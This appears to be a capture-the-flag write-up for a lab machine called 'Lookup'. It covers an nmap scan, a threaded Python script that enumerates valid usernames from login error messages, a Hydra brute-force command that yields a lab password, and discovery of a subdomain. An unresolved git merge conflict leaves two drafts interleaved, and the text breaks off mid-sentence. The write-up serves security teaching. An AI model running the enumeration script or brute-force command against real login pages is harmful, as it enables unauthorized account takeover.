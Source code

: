 ### Intro
_Lookup_ features real-world vulnerabilities like web app flaws and privilege escalation. It teaches key skills such as reconnaissance, enumeration, command injection, and scripting for automation—offering valuable experience in penetration testing and secure coding practices.
#### Nmap
```bash
nmap -p- -A 10.10.248.120
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-14 22:49 BST
Nmap scan report for ip-10-10-248-120.eu-west-1.compute.internal (10.10.248.120)
Host is up (0.00021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
MAC Address: 02:55:1A:4A:B6:E7 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/14%OT=22%CT=1%CU=41006%PV=Y%DS=1%DC=D%G=Y%M=02551A%T
OS:M=68757B71%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=Z%II=I
OS:%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11N
OS:W7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F
OS:4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.21 ms ip-10-10-248-120.eu-west-1.compute.internal (10.10.248.120)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.87 seconds
```

Browsing the IP gives us `We can’t connect to the server at lookup.thm.`, meaning the computer tried to reach the address `http://lookup.thm` but couldn't find or connect to the server. To overcome this issue we need to map the `ip` to `hostname` in `/etc/hosts (a local file where you manually map hostnames to IP addresses)` file because the internal lab domains aren't publicly registered. 

#### Browse the hostname
```bash
lookup.thm
```
- We get a basic login page.

<<<<<<< HEAD
#### Python Script to Enumerate Users
```python
import requests
from concurrent.futures import ThreadPoolExecutor
import threading
from urllib.parse import urljoin

print_lock = threading.Lock()

def is_valid_user(response):
    invalid_msg = "Wrong username or password. Please try again.<br>Redirecting in 3 seconds."
    return not (response.text.strip() == invalid_msg and len(response.text.strip()) == 74)

def check_username(session, post_url, username_field, password_field, fake_password, username):
    data = {username_field: username, password_field: fake_password}
    try:
        response = session.post(post_url, data=data, timeout=10)
        if is_valid_user(response):
            with print_lock:
                print(f"[+] Valid username: {username}")
    except requests.RequestException:
        pass  # silently ignore errors

def main():
    print("=== User Enumeration (Only Valid Users Output) ===\n")
    base_url = input("Base URL (e.g. http://lookup.thm/): ").strip()
    post_path = input("Login form action path (e.g. login.php): ").strip()
    post_url = urljoin(base_url, post_path)
    username_field = input("Username field name (e.g. username): ").strip()  # The username and password fields can be extracted from 
    password_field = input("Password field name (e.g. password): ").strip()  # the source page under username and password snippets.
    fake_password = input("Fake password to use (e.g. Invalid123!): ").strip()
    wordlist_path = input("Path to username wordlist: ").strip()
    threads = input("Number of threads to use (default 10): ").strip()
    threads = int(threads) if threads else 10

    session = requests.Session()
    try:
        with open(wordlist_path, "r") as f:
            usernames = [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print("[!] Wordlist file not found.")
        return

    print(f"\n[*] Starting scan with {threads} threads...\n")

    with ThreadPoolExecutor(max_workers=threads) as executor:
        for username in usernames:
            executor.submit(check_username, session, post_url, username_field, password_field, fake_password, username)

if __name__ == "__main__":
    main()
```

We have managed to extract two usernames `admin` and `jose`. Now, it's time to brute-force the password for these users.

#### Brute Force with Hydra
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form '/login.php:username=jose&password=^PASS^:F=Wrong' -t 32
```

We've managed to crack the password of the user `jose` and the password is `password123`. We now use these credentials to login in but like earlier we get nothing. When we inspect the `Network` tab and login with the creds again, we get a new subdomain `files.lookup.thm`. 

This technique is called `Virtual Hosting`, where multiple domain names are hosted on the same IP. The web server uses the `Host header in the HTTP request` to determine which site to server.

We can map this subdomain to the IP like we did earlier.

#### Map the Subdomain
```bash
sudo vim /etc/hosts
IP     files.lookup.thm
```

Once that is done, refresh the page and we are inside the website. There are a lot of files and we can check all of them. However, 
=======
When we try to input some random creds, we get an error saying `Wrong username or password. Please try again. Redirecting in 3 seconds.` However, when we try default creds like `admin:admin`, we only see the password error and not the username error `Wrong password. Please try again. Redirecting in 3 seconds.` which means that the `admin` is a genuine username.

Next we check the `Network` tab in `Inspect page/Web Developer Tools`.  We can see there's an error saying `Wrong username or password. Please try again. Redirecting in 3 seconds.` We can also see that the `HTTP Method: POST` and `Subdirectory: login.php` popped up for a few second. We can confirm this by nmap scan.

#### Nmap to Discover the Login Page
```bash
nmap -p80 --script http-enum <IP>
```

Now that we have managed to find a login page, we can try to `Brute-Force` this page.

#### Brute Force the Login Page with Hydra
>>>>>>> 542b9b485bb343840fc576ed818622ed33e4de22
